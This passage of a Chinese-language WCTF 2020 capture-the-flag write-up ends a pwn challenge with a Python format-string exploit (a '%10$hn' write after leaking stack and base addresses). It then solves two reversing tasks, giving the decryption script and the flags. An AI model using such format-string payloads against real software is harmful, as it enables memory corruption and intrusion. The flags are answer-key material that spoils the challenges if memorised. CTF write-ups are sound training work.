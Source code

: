 ```python
base = eval(ru('.'))-4140
stack = eval(ru('\n'))-40
info_addr('stack',stack)
flag = base+0xF56
info_addr('flag',flag&0xffff)
sla('>>','2')
# debug()
payload = '%%%dc'%(flag&0xffff)+'%10$hn'
payload = payload.ljust(16,'A')
payload+= p64(stack)
sl(payload)

p.interactive()
```



# Re

## Cr0ssfun

和[Sarctf - Crossw0rd](http://taqini.space/2020/02/16/sarctf-writeup/#Reverse) 一样的套路

> flag: wctf2020{cpp_@nd_r3verse_@re_fun}



## level1

加密：

```c
  stream = fopen("flag", "r");
  fread(ptr, 1uLL, 0x14uLL, stream);
  fclose(stream);
  for ( i = 1; i <= 19; ++i )
  {
    if ( i & 1 )
      printf("%ld\n", (unsigned int)(ptr[i] << i));
    else
      printf("%ld\n", (unsigned int)(i * ptr[i]));
  }
```

解密：

```python
#!/usr/bin/python
#__author__:TaQini

c = [198, 232, 816, 200, 1536, 300, 6144, 984, 51200, 570, 92160, 1200, 565248, 756, 1474560, 800, 6291456, 1782, 65536000]

for i in range(1,20):
    #print i,
    if i&1:
        ch = c[i-1]>>i
    else:
        ch = c[i-1]/i
    print chr(ch),

# wctf2020{d9-dE6-20c}
```
